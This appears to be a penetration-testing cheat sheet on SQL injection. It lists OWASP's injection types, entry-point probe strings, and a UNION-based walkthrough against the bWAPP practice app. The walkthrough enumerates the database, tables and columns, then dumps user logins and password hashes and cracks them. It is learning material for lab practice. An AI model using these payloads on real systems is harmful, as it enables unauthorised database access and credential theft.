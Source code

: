 # SQL overview

* null session:

mysql -u root -h ip 

# SQL injection

Here are 5 types of injection to look for (source: [OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection))
* Union Operator: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
* Boolean: use Boolean condition(s) to verify whether certain conditions are true or false.
* Error based: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
* Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
* Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

* All examples are based on bWAPP (free pentesting practice tool) examples.

## Test for SQLi vulnerability
* It is necessary to identify a possible SQLi entry point
* Use of special characters can help (got from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection)):

```
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content

Multiple encoding

%%2727
%25%27

Merging characters

`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP

Logic Testing

page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false

Weird characters

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```


## UNION based sql injection

### MYSQL Comment
-- - Note the space after the double dash
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MYSQL version 3.23.02

-- - to emphasize space

1. Get number of columns

```
1' order by 1; -- -- ok
1' order by 2; -- -- ok
...
1' order by 7; -- -- ok
1' order by 8; -- -- error -> 7 columns available

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

#using NULL is benficial if it is not certain if data types in columns match

```
Other faster methods (if error messages are enabled):

```
' UNION SELECT 1,2,3,4,5,6,7; -- --	True

1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100; -- --

```
* Note: for oracle add FROM DUAL like so:

```
' UNION SELECT NULL FROM DUAL--
```

2. identify vulnerable columns

```
-' union all select 1,2,3,4,5,6,7; -- --

Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link

#columns 2,3,4,5 are vulnerable
```

Get Database version:

```
-' union all select 1,@@version,3,4,5,6,7; -- -

#5.0.96-0ubuntu3 > 5 -> continue with table name enumeration

#for database name

-' union all select 1,database(),3,4,5,6,7; -- -

#we get bWAPP

#time for table name

-' union all select 1,group_concat(0x7c,table_name,0x7C),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- -

#output: blog,heroes,movies,users,visitors

#get column names from users table

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_schema=database(); -- -

#output for column names: id,owner,entry,date,id,login,password,secret,id,title,release_year,genre,main_character,imdb,tickets_stock,id,login,password,email,secret,activation_code,activated,reset_code,admin,id,ip_address,user_agent,date

#columns of particular table 
#encode table name "users" as decimal using: http://www.unit-conversion.info/texttools/ascii/

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115); -- -

#output of columns in "users": id,login,password,email,secret,activation_code,activated,reset_code,admin,uid,name,pass,mail,theme,signature,signature_format,created,access,login,status,timezone,language,picture,init,data

#lets get login and password 

-' union all select 1,group_concat(login,0x7C,password,0x7C,admin),3,4,5,6,7 from users; -- -

#output.
#A.I.M.|6885858486f31043e5839c735d99457f045affd0|1,bee|6885858486f31043e5839c735d99457f045affd0|1,ok|#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb|0
#obviously column with 1 indicates admin
#cracking with hashcat delivers:
#6885858486f31043e5839c735d99457f045affd0:bug
#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb:ok


```



















